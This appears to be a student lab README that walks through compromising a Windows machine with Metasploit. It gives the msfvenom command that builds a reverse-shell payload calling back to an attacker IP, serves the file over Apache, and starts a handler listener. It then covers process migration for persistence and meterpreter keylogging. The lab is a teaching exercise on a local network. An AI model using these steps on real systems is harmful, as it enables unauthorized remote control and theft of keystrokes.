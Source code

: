 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110001](https://github.com/user-attachments/assets/8cde1e5a-5319-4f72-81c4-9f09f8204798)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-07 111202](https://github.com/user-attachments/assets/a5850360-7890-4b7d-b3bf-f84f7eec2f96)





copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-07 115010](https://github.com/user-attachments/assets/f556dedd-f7d9-47bc-b786-0d2017262af3)



Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-07 115019](https://github.com/user-attachments/assets/f8a3a5db-f3a1-4089-865b-bf898995674f)



Check the status of apache2
![Screenshot 2025-04-07 115108](https://github.com/user-attachments/assets/e5f1d4d7-126a-4b09-b6ef-eb06a680981f)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 115214](https://github.com/user-attachments/assets/ea384ca5-6c96-405e-9b45-b23f4e9fab41)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-07 115416](https://github.com/user-attachments/assets/c77d859f-ec36-4ce5-a9d5-e54633f390c7)



Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Screenshot 2025-04-07 115242](https://github.com/user-attachments/assets/13ef9689-8a76-4d7c-bb44-0e4ee9807099)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![{F7D2ED4C-13F1-4F4C-B951-BEB85E88527E}](https://github.com/user-attachments/assets/337f3a58-b9d7-413a-9619-eaa764b32dd9)



keyscan_dump	Shows the keystrokes captured so far
![{970C702A-B8E4-4F86-8022-F68564FCAD87}](https://github.com/user-attachments/assets/42a6d320-d01e-4694-addb-c39220915f08)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
